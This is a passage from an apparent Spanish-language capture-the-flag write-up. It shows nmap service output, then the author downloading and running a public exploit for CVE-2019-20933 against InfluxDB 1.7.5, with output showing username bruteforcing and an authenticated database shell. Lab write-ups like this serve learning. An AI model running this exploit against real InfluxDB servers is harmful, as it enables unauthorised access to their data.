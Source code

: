 ```bash
|     HTTP/1.0 200 OK
|     Server: My genious go pet server
|     Date: Fri, 16 Dec 2022 10:54:41 GMT
|     Content-Length: 510
|     Content-Type: text/html; charset=utf-8
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset='utf-8'>
|     <meta name='viewport' content='width=device-width,initial-scale=1'>
|     <title>Pet Inventory</title>
|     <link rel='icon' type='image/png' href='/favicon.ico'>
|     <link rel='stylesheet' href='/css/global.css'>
|     <link rel='stylesheet' href='/css/bootstrap.min.css'>
|     <link rel='stylesheet' href='/css/all.min.css'>
|     <link rel='stylesheet' href='/build/bundle.css'>
|     <script type="module" src='/build/main.js'></script>
|     </head>
|     <body>
|     </body>
|_    </html>
8086/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8443/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  256 66:61:73:b4:a2:9c:b1:b7:a9:81:7a:6e:1d:5d:fc:ec (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```
En el puerto 8086 vemos un servicio `InfluxDB`. InfluxDB es un sistema de gestión de bases de datos desarrollado por la empresa InfluxData, Inc. Buscamos vulnerabilidades asociadas a este servicio y encontramos este repositorio de [LorenzoTullini](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933). Nos lo descargamos a nuestro directorio de trabajo y lo ejecutamos

```bash
❯ python3 exploit.py

  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  
 - using CVE-2019-20933

Host (default: localhost): 
Port (default: 8086): 
Username <OR> path to username file (default: users.txt): 

Bruteforcing usernames ...
[v] admin

Host vulnerable !!!

Databases:

1) devzat
2) _internal

.quit to exit
[admin@127.0.0.1] Database: 
```
